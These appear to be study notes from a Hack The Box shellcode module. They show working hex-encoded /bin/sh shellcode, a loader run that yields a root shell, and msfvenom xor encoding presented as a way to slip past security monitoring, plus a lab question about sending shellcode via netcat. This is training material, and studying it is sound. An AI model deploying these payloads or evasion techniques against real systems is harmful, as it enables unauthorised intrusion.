 - Let's try running the encoded shellcode to see if it runs:

```shell-session
secmancer@htb[/htb]$ python3 loader.py 
'4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c'

$ whoami

root
```

- As we can see, the encoded shellcode works as well while being a little bit less detectable by security monitoring tools.
- Tip: We can encode our shellcode multiple times with the `-i COUNT` flag, and specify the number of iterations we want.
- We see that the encoded shellcode is always significantly larger than the non-encoded one since encoding a shellcode adds a built-in decoder for runtime decoding. It may also encode each byte multiple times, which increases its size at every iteration.
- If we had a custom shellcode that we wrote, we could use `msfvenom` to encode it as well, by writing its bytes to a file and then passing it to `msfvenom` with `-p -`, as follows:

```shell-session
secmancer@htb[/htb]$ python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05'))" > shell.bin
secmancer@htb[/htb]$ msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 71 (iteration=0)
x64/xor chosen with final size 71
Payload size: 71 bytes
Final size of hex file: 142 bytes
4831c94881e9fcffffff488d05efffffff48bb5a63e4e17d0bac1348315827482df8ffffffe2f4ea58acd0af59e4ac75018d8f5224df7b0d2b6d062f5ce49abc6ce1e17d0bac13
```
- As we can see, our payload was encoded and became much larger as well.


## Shellcode Resources
- Finally, we can always search online resources like [Shell-Storm](http://shell-storm.org/shellcode/) or [Exploit DB](https://www.exploit-db.com/shellcodes) for existing shellcodes.
- For example, if we search [Shell-Storm](http://shell-storm.org/shellcode/) for a `/bin/sh` shellcode on `Linux/x86_64`, we will find several examples of varying sizes, like this [27-bytes shellcode](http://shell-storm.org/shellcode/files/shellcode-806.php). We can search [Exploit DB](https://www.exploit-db.com/shellcodes) for the same, and we find a more optimized [22-bytes shellcode](https://www.exploit-db.com/shellcodes/47008), which can be helpful if our Binary Exploitation only had around 22-bytes of overflow space. We can also search for encoded shellcodes, which are bound to be larger.
- The shellcode we wrote above is 27-bytes long as well, so it looks to be a very optimized shellcode. With all of that, we should be comfortable with writing, generating, and using shellcodes.


### Questions
- The above server simulates an exploitable server you can execute shellcodes on. Use one of the tools to generate a shellcode that prints the content of '/flag.txt', then connect to the server with "nc SERVER_IP PORT" to send the shellcode.
	- answer